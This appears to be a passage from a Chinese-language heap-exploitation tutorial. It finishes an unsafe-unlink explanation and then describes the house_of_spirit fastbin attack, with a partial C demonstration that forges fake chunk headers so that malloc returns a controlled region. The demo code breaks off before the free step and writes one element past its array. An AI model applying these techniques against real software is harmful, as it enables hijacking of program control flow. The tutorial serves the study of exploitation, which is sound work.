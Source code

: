 ​    也就是说，chunk0_ptr 和 chunk0_ptr[3] 现在指向的是同一个地址

 ![image-20211226160743336](/images/heap/image-20211226160743336.png)

   在这个图示中最终实现的效果是ptr中存的是ptr-0x18，如果本来ptr 是存的一个指针的，现在它指向了ptr-0x18。如果编辑这里的内容就可以往ptr-0x18那里去写，实现了覆盖这个指针为任意值的效果。

## house_of_spirit

   house_of_spirit是一种fastbins攻击方法，通过构造fake chunk，然后将其free掉，就可以在下一次malloc时返回fake chunk的地址，即任意我们可控的区域。House_of_spirit是一种通过堆的fast bin机制来辅助栈溢出的方法，一般的栈溢出漏洞的利用都希望能够覆盖函数的返回地址以控制EIP来劫持控制流，但如果栈溢出的长度无法覆盖返回地址，同时却可以覆盖栈上的一个即将被free的堆指针，此时可以将这个指针改写为栈上的地址并在相应位置构造一个fast bin块的元数据，接着在free操作时，这个栈上的堆块被放到fast bin中，下一次malloc对应的大小时，由于fast bin的先进后出机制，这个栈上的堆块被返回给用户，再次写入时就可能造成返回地址的改写。所以利用的第一步不是去控制一个 chunk，而是控制传给 free 函数的指针，将其指向一个fake chunk。所以 fake chunk的伪造是关键。

   源码如下。

 ```c
 #include <stdio.h>
 #include <stdlib.h>
 
 int main()
 {
     fprintf(stderr, "这个例子演示了 house of spirit 攻击\n");
 
     fprintf(stderr, "我们将构造一个 fake chunk 然后释放掉它，这样再次申请的时候就会申请到它\n");
     malloc(1);
 
     fprintf(stderr, "覆盖一个指向 fastbin 的指针\n");
     unsigned long long *a, *b;
     unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
 
     fprintf(stderr, "这块区域 (长度为: %lu) 包含两个 chunk. 第一个在 %p 第二个在 %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[9]);
 
     fprintf(stderr, "构造 fake chunk 的 size，要比 chunk 大 0x10（因为 chunk 头），同时还要保证属于 fastbin，对于 fastbin 来说 prev_inuse 不会改变，但是其他两个位需要注意都要位 0\n");
     fake_chunks[1] = 0x40; // size
 
     fprintf(stderr, "next chunk 的大小也要注意，要大于 0x10 小于 av->system_mem（128kb）\n");
         // 这是fake_chunks[?]可以数一下
     fake_chunks[9] = 0x1234; // nextsize
     fake_chunks[2] = 0x4141414141414141LL;
     fake_chunks[10] = 0x4141414141414141LL;
 
     fprintf(stderr, "现在，我们拿伪造的那个 fake chunk 的地址进行 free, %p.\n", &fake_chunks[2]);
     a = &fake_chunks[2];
 
     fprintf(stderr, "free!\n");
 ```